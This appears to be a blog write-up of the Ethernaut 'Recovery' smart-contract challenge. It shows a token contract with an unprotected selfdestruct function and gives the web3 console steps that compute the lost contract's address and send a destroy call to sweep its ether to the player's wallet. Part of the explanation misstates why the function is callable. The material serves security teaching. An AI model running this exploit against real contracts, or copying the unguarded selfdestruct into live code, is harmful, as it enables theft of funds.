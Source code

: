 +++
title = "Recovery - Ethernaut"
date = "2022-01-30"
author = "DimitrisV"
+++
On this challenge, we have a smart-contract that can built very simple tokens by its own. Anyone can create new tokens with ease. The point of this contract is to find the lost contract address and then withdraw all of its ether.
At first, we check the code:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

We can see that this smart contract has a destroy function with a selfdestruct() operator on it. However, the function destroy is not public payable. That means we can't simply make a transaction and call it. We should find the address and then call it by using the contract's address. We know that contract addresses are deterministically calculated. From Ethereum's yellow paper we can read:  "The address of the new account is defined as being the rightmost 160 bits of the Keccak hash of the RLP encoding of the structure containing only the sender and the account nonce. Thus we define the resultant address for the new account".
We can represent this function as:
```
address = rightmost_20_bytes(keccak(RLP(sender address, nonce)))
```

On which:
* "sender address" is the contract or wallet address that created this new contract. So, we can type in console "contract.address" and find it easily.
* "nonce" is the number of the transactions sent from the "sender address" or if the sender an another smart-contract, the "nonce" is the number of contract-creations made by this account.
* "RLP" is an encoder on data structure and is the default to serialize objects in Ethereum. The RLP encoding of a 20-byte address is 0xd6,0x94. Moreover, for all intenger less than 0x7f, its encoding its just its own byte value. As result, the RLP of 1 is 0x01. We keep that in mind for the next step.
* "keccak" is the cryptographic primitive that compute the Ethereum SHA3 hash on any input. Is also refered as Keccak-256.

So now we can recalculate the address of the new contract by an existing contract located at the contract.address. It should be mentioned that the nonce 0 is always the event of smart contract's creation. So, we will begin to counting from 1. We know that RLP of 1 is 0x01, so by using the web3 utils, we will try to use the function we described above:
```
web3.utils.soliditySha3("0xd6", "0x94", "0xEa90EAAAB78241373b94C98a788524582DA2e593" , "0x01")
```
This will return this hexademical:
``` '0xa1ed98d854d1b4ee7a4aa44816a095b1578566ec7fd216246a8c0a6322f67331' 
```

We will keep only the last 40 characters : 
```
16a095b1578566ec7fd216246a8c0a6322f67331 
```

Then we have the smart contract address. Now we can check in Etherscan.io this address and we can find out that it has 0.01 ether inside. As we have the address now we can try to call the destruct function. Therefore, we will encode a function call from console:

```
data = web3.eth.abi.encodeFunctionCall({
    name: 'destroy' ,
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to' }] 
}, [player]);
```
And then we will create a transaction having our own player address in order to be sent to us the smart's contract ether when we trigger selfdestruct() operation:
```
await web3.eth.sendTransaction({
    to: "0x16a095B1578566ec7fd216246A8C0A6322F67331",
    from: player,
    data: data } )
```

We pay the transaction fees and now we transfer all of the contract's ether to our wallet.
From this challenge, we learnt that we can send Ethers to a deterministic address, when the contract does not exist, at least for now. 

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

- [Smart Contract Security: Dimitris Vagiakakakos, Stavros Gkinos, Ioannis Karvelas](https://github.com/sv1sjp/eVoting_Elections_Decentralized_App/blob/main/smartcontract_security_paper.pdf)


* [Smart Contract Security - Educational YouTube Series in Greek - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)
